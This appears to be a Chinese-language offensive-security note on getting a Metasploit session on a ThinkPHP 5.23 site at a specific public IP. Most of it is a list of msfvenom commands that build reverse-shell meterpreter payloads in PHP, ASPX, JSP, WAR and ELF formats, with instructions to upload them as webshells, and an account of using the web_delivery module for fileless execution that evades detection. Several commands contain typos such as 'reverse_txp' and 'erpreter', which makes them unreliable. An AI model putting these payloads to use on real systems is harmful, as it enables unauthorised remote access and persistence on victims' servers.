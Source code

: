## 使用公网服务器攻击
- 目标站点: (http://150.158.137.72:8081) ThinkPHP5.23
- 当只有一个命令执行权限时, 上线msf来获取更多的权限
- view-source:url 查看网页源代码
- 反弹msf:
	- 通过web站点, 使用无文件的方式攻击利用执行(msf后门木马), 使用蚁剑上传, 直接访问就可以运行
		- php: `msfvenom -p php/meterpreter/reverse_txp lhost=xxx lport=xxxx -f raw >shell.php`
		- asp: `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=xxx lport=xxxx -f aspx -o shell.aspx`
		- jsp: `msfvenom -p java/jsp_shell_reverse_tcp lhost=xxx lport=xxxx -f raw >shell.jsp`
		- war: `msfvenom -p java/jsp_shell_reverse_tcp lhost=xxx lport=xxxx -f war >shell.war`
		- 可执行文件: `msfvenom -p linux/x64/erpreter/reverse_tcp lhost=xxx -p xxx -f elf -o xx.elf`
	- 通过web站点, 上传webshell, 返回给msf
- msf会保留已经开启的session, 随时切换连接

### Web_delivery模块
- 当攻击者拥有部分受害者主机的控制权(命令执行权限), 但还没有拿到完整的shell时, 可以使用
- web_delivery的主要目的时快速和受害者主机建立一条session. 当受害者主机存在比如命令注入, 远程命令执行等问题时, 攻击者可以使用web_delivery生成的一条命令建立连接
- 另外web_delivery的payload不会在受害者主机磁盘上写文件, 而是直接将攻击者服务器上的代码加载到内存执行, 有利于绕过检测
- web_delivery支持php/python/powershell等多种脚本, 使用不同的脚本的payload时需要通过set target 0等命令设置
![[Pasted image 20220813171242.png]]
- 在对应的地方运行得到的poc, 上线